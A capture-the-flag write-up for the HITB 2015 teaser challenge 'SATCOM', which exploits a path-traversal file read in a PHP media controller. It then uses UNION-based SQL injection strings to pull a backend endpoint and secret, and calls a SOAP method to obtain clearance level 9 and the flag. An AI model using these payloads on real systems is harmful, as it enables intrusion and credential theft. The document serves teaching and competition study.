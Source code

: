 Title: web1000 - SATCOM
Author: doskop
Date: 2015-03-31 7:18
Tags: CTF


## Introduction

> SATCOM

> Our division of foreign cyber affairs has been hard at work lately. While
> mapping out some obscure subnets (which we think belong to the intelligence
> agency that is investigating HEAVENWEB) we've come accross a Sattelite
> Communications Center. One of our employees managed to snag a copy of some
> source code before they further locked down the platform. Luckily the login
> frontend still seems to be reachable.

Download the source code: [frontend.tar.gz]({filename}/downloads/hitb-2015-teaser-ctf/frontend.tar.gz).

## Logging in

We're presented with the source code of the front end and a link to the login page of the SATCOM system.

The login page doesn't seem to be vulnerable to SQL injection, so we start looking at the source code of the front end. The login check is handled by the LoginController->handleLogin($form) function, which delegates it to a user facade, which delegates it to an authentication service, which looks up the users in a repository. That repository is stored in /etc/scc.passwd so let's find a local file inclusion vulnerability.

Looking at the inline stylesheet we see that the arrow for the login button is served using a media/view route and not from the static file directory.

The MediaController contains these lines:

    :::php
    <?php
    public  function viewAction($file)
    {
            $folder = isset($_GET['folder']) ? $_GET['folder'] . "/" : "../app/storefront/resources/";
    
            try {
                    $fp = $this->getResourceService()->getResourceHandle($folder . $file);
                    $this->view->setRenderLevel(View::LEVEL_NO_RENDER);
                    $this->response->setHeader("Content-Type", "image/png");
    
                    fpassthru($fp);
    
            } catch (\Exception $e) {
                    echo $e->getMessage();
            }
    }
    ?>

That should be trivial to exploit, just provide a folder and a file.

    $ curl http://satcom.info/media/view/scc.passwd?folder=/etc
    4100:uPN4jD:phenom:3:true
    9011:Lft3a7:denial:3:true
    3331:Zs6tzx:admin:9:false

Too bad, the admin is disabled. Let's log in using the denial account.

## Deeper down the rabbit hole

After poking around the SATCOM interface a bit, we notice we can't get the data for the transponder with SIC 14.55 and location HEAVENWEB because we only have clearance level 3 and we need level 9. Back to the source code.

Looking at the views that provide the transponder management pages, we see that it uses the TransponderControlServiceClient class to communicate with a SOAP backend (in external/service/TransponderControlServiceClient.php). It gets the endpoint and a secret from the database and uses that to authenticate against the backend.

While poking around, we noticed that the getTransponderBySic function, which is used by the activate transponder code, is vulnerable to SQL injection. Let's use that to fetch the backend endpoint and secret. We go to the activate page and try to activate the following transponder:

    ' UNION ALL SELECT 1,value,3,4,5,6,7,8,9,10,11 FROM config WHERE `key`='external.webservice.endpoint' --

The error message on the top of the form will read:

    Transponder "http://primary-private-srv.satcom.info/service.wsdl" already activated

Ok, so now we have the endpoint. Let's get the secret:

    ' UNION ALL SELECT 1,value,3,4,5,6,7,8,9,10,11 FROM config WHERE `key`='external.webservice.secret' --

The error will be:

    Transponder "f8bb883a642fe29ad2f70bbe4077459a" already activated

## Capture the flag!

We now have a SOAP backend endpoint and a secret. Let's use them. We'll use suds to connect to the backend, use the CreateSessionForUid method using the admin's UID to create a session and use the GetPacketData method to get the data we want.

    :::python
    $ python
    >>> from suds.client import Client
    >>> c = Client('http://primary-private-srv.satcom.info/service.wsdl')
    >>> c.service.CreateSessionForUid('f8bb883a642fe29ad2f70bbe4077459a', 3331)
    >>> c.service.GetPacketData('1.4.55')
    No handlers could be found for logger "suds.client"
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/client.py", line 542, in __call__
        return client.invoke(args, kwargs)
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/client.py", line 602, in invoke
        result = self.send(soapenv)
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/client.py", line 649, in send
        result = self.failed(binding, e)
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/client.py", line 702, in failed
        r, p = binding.get_fault(reply)
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/bindings/binding.py", line 265, in get_fault
        raise WebFault(p, faultroot)
    suds.WebFault: Server raised fault: 'You need clearance level 9 to view this data'

Not what we hoped for. Should've expected that though, the admin account was disabled after all. Let have a look at the WSDL to see what else we've got.

    :::xml
    <wsdl:portType name="TransponderControlServicePortType">
        <wsdl:operation name="CreateSessionForUid">
            <wsdl:input message="tns:CreateSessionForUidRequest"/>
            <wsdl:output message="tns:CreateSessionForUidResponse"/>
        </wsdl:operation>
        <wsdl:operation name="CreateSessionForClearanceLevel">
            <wsdl:input message="tns:CreateSessionForClearanceLevelRequest"/>
            <wsdl:output message="tns:CreateSessionForClearanceLevelResponse"/>
        </wsdl:operation>
        <wsdl:operation name="GetPacketData">
            <wsdl:input message="tns:GetPacketDataRequest"/>
            <wsdl:output message="tns:GetPacketDataResponse"/>
        </wsdl:operation>
        <wsdl:operation name="GetStatus">
            <wsdl:input message="tns:GetStatusRequest"/>
            <wsdl:output message="tns:GetStatusResponse"/>
        </wsdl:operation>
    </wsdl:portType>

CreateSessionForClearanceLevel looks promising. Let's try it.

    :::python
    $ python
    >>> from suds.client import Client
    >>> c = Client('http://primary-private-srv.satcom.info/service.wsdl')
    >>> c.service.CreateSessionForClearanceLevel('f8bb883a642fe29ad2f70bbe4077459a', 9)
    >>> c.service.GetPacketData('1.4.55')
    Great job!! :) Here's your flag: HITB{32c148293a4b6634c211284f2578bb35}
